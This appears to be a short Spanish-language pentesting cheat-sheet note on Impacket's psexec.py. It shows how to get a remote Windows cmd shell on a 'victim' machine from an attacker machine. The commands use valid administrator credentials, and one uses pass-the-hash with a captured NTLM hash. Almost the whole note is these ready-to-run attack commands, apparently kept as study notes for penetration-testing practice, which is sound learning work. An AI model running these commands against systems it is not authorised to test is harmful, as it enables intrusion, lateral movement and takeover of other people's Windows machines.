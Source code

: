 # RPC

Tags: #RPC #PsExec #SMB #Windows 

Para poder utilizar esta tool, debemos de tener usuario y passwd validas.  

```python
❯ locate psexec            # Buscamos la tool en nuestra maquina de atacante '/usr/share/doc/python3-impacket/examples/psexec.py'

❯ python3 psexec.py administrator@IP        # Nos da una cmd en Windows 
❯ psexec.py administrator@IP cmd.exe        # Para ingresar al SMB 
	# user = Administrator
	# IP = Direccion de la maquina victima 
	# cmd = Que nos ejecute una consola cmd al momento de ingresar
```

```bash
❯ psexec.py WORKGROUP/Administrator@<IP> -hashes <'HASH'>       # Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 
```